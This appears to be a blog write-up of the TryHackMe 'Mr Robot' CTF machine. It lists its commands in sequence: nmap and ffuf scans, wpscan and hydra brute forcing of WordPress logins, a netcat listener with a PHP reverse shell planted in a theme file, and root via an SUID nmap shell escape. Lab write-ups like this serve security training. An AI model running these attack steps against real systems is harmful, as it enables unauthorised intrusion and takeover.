 ```yaml
---
title: "Mr Robot machine on THM"
classes: wide
header:  
  teaser: /assets/images/posts/writeups/mr_robot.jpg
  #overlay_image: /assets/images/main/header3.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "TryHackMe Mr Robot CTF is inspired by the popular TV series, this machine offers a thrilling challenge that will test your skills in web exploitation, privilege escalation, and more. I'll take you step-by-step through the process of hacking into the Mr Robot machine, uncovering hidden vulnerabilities, and ultimately capturing the flags."
description: "Walkthrough on Mr Robot CTF machine from TryHackMe"
categories:
  - writeups
tags:
  - mrrobot
  - THM
  - CTF
  - privesc
  - writeup
  - TryHackMe
  - Easy
toc: false
---
```


<img src="/assets/images/posts/writeups/mr_robot.jpg" alt="Mr Robot" width="500" class="align-center">

TryHackMe Mr Robot CTF is inspired by the popular TV series, this machine offers a thrilling challenge that will test your skills in web exploitation, privilege escalation, and more. I'll take you step-by-step through the process of hacking into the Mr Robot machine, uncovering hidden vulnerabilities, and ultimately capturing the flags.

## Information gathering

### Enumeration

#### nmap

Command:
```sh
nmap -sC -sV [machineIp]
```

Results:
```sh
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache

```
#### ffuf

Command:
```sh
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://[machineIp]/FUZZ 
```

Results:
```sh
.htpasswd               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 57ms]
.hta                    [Status: 403, Size: 213, Words: 16, Lines: 10, Duration: 61ms]
.htaccess               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 61ms]
                        [Status: 200, Size: 1188, Words: 189, Lines: 31, Duration: 90ms]
0                       [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 783ms]
admin                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 51ms]
audio                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 52ms]
atom                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 767ms]
blog                    [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 51ms]
css                     [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 51ms]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 831ms]
favicon.ico             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 830ms]
feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 834ms]
images                  [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 51ms]
image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 866ms]
index.html              [Status: 200, Size: 1188, Words: 189, Lines: 31, Duration: 70ms]
Image                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 893ms]
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 833ms]
intro                   [Status: 200, Size: 516314, Words: 2076, Lines: 2028, Duration: 59ms]
js                      [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 54ms]
license                 [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 79ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 808ms]
page1                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 788ms]
phpmyadmin              [Status: 403, Size: 94, Words: 14, Lines: 1, Duration: 59ms]
readme                  [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 53ms]
rdf                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 816ms]
robots                  [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 60ms]
robots.txt              [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 52ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 798ms]
rss2                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 791ms]
sitemap                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
sitemap.xml             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
video                   [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 57ms]
wp-admin                [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 53ms]
wp-content              [Status: 301, Size: 240, Words: 14, Lines: 8, Duration: 57ms]
wp-includes             [Status: 301, Size: 241, Words: 14, Lines: 8, Duration: 53ms]
wp-config               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 858ms]
wp-cron                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 867ms]
wp-links-opml           [Status: 200, Size: 227, Words: 13, Lines: 11, Duration: 852ms]
wp-load                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 829ms]
wp-login                [Status: 200, Size: 2613, Words: 115, Lines: 53, Duration: 873ms]
wp-settings             [Status: 500, Size: 0, Words: 1, Lines: 1, Duration: 777ms]
wp-mail                 [Status: 500, Size: 3064, Words: 212, Lines: 110, Duration: 951ms]
wp-signup               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 816ms]
xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 898ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 837ms]
:: Progress: [4614/4614] :: Job [1/1] :: 27 req/sec :: Duration: [0:02:38] :: Errors: 0 ::
```

## Exploitation

### Foothold
1. Check content of robots.txt file found in file enumeration
2. In the robots there is a file called http://[machineIp]/key-1-of-3.txt containing **Key1** (FIRST KEY IN THE CTF)
3. Also, in location http://[machineIp]/fsocity.dic is a dictionary, download it locally for later
4. Check the installed wordpress instance using wpscan:
```sh
wpscan --url http://[machineIp]/0/ --wp-content-dir wp-content -e vp,vt,cb,u,dbe,m
```
5. Scanning the wordpress we found two users: **elliot**, **mich05654**
6. Brute force with wpscan for user **mich05654**:
```sh
wpscan --url http://[machineIp]/0/ --wp-content-dir wp-content -U mich05654 -P /home/kali/Downloads/fsocity.dic 
```
7. Found password for mich05654!
8. Login with found user and password on the http://[machineIp]/wp-login.php
9. This user has limited access in wordpress
10. Since brute forcing with wpscan is realy slow we can use BurpSuite or Hydra to bruteforce for user *elliot*
11. Check for dictionary downloaded; a lot of lines are repeating - clean the dictionary first
12. Checking the dictionary again I saw that a couple of more than 11k passwords are repeating except last few lines:
```txt
ER28-0652
psychedelic
iamalearn
uHack
imhack
abcdefghijklmno
abcdEfghijklmnop
abcdefghijklmnopq
c3fcd3d76192e4007dfb496cca67e13b
ABCDEFGHIJKLMNOPQRSTUVWXYZ
```
13. Bruteforcing with this small list I found elliot's password!
```sh
hydra -l elliot -P /home/kali/Downloads/short.txt [machineIp] http-post-form "/wp-login.php:log=elliot&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.146.151%2Fwp-admin%2F&testcookie=1:The password you entered for the username"
```
14. Start a local listener with netcat `nc -lvnp 4455`
15. Login with elliot on wordpress and edit theme (Apearance >> Editor) replace the content of file (header.php) with a php rev shell (PentestMonkey.php from here https://www.revshells.com/)
16. Re-visit blog to load the content of header.php, the reverse shell should run

#### Data exfiltration
1. We are logged as user "daemon" on Linux machine and the second flag is own by user "robot", for this a lateral movement will be needed
2. Check for SUID `find / -perm /4000 2> /dev/null`
3. Found nmap instance with SUID set `-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap`

### Privilege escalation
1. Check https://gtfobins.github.io/gtfobins/nmap/ for how you can spawn a shell using nmap:
```sh
nmap --interactive
nmap> !sh
```
2. Voila! You are root :)

#### Data exfiltration
1. Read content of /home/robot/key-2-of-3.txt for **Key2** (SECOND KEY IN THE CTF)
2. Read content of /root/key-3-of-3.txt for **Key3** (THIRD KEY IN THE CTF)